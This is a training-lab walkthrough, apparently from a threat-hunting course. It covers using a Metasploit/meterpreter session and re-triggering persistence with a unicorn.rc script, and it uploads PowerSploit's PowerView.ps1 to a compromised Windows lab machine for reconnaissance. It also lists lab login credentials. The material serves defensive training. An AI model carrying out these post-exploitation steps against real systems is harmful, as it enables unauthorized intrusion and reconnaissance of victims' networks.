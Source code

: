

![image](https://github.com/user-attachments/assets/1c54d006-10fe-4d23-a383-8867013dd231)

![image](https://github.com/user-attachments/assets/151a276f-8268-41fb-8e4c-40cc7950d99e)

PowerSploit
PowerSploit is a set of attack tools that are written in PowerShell. These tools provide advanced reconnaissance, exploitation, privilege escalation, persistence, and lateral movement functionality to an attacker. However, before attackers can use PowerSploit, they must first bring the tools into an environment and execute them. 

﻿

Use PowerSploit
﻿

Access the attacker’s workstation again to employ this powerful toolkit written in PowerShell for local enumeration and reconnaissance on a compromised machine. The PowerSploit tools are already on the Kali machine. An attacker would simply need to execute a file upload to the victim workstation to execute them. 

﻿

Workflow
﻿

1. Log in to the VM kali-hunt with the following credentials:

Username: trainee
Password: CyberTraining1!
﻿

2. Bring up the Metasploit session created from the persistence established in previous labs by entering the following command:

msf6 exploit(multi/handler) > sessions -i 1
﻿

NOTE: if the previous session is closed, trigger the persistence again by executing the following command in a Kali terminal window and opening a new PowerShell session on the victim machine:

(trainee@dmss-kali)-[~/unicorn]$ sudo msfconsole -r unicorn.rc
[sudo] password for trainee: CyberTraining1! 

![image](https://github.com/user-attachments/assets/d99ea548-9c11-41ec-9fa2-c241ba4c4095)

﻿

3. Load the application interface that allows the creation of an interactive shell by entering the following command:

meterpreter > load stdapi
﻿

4. Transfer the PowerSploit toolkit to the victim device with the following command:

meterpreter > upload /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 "C:\Windows\Temp\PowerView.ps1"
﻿

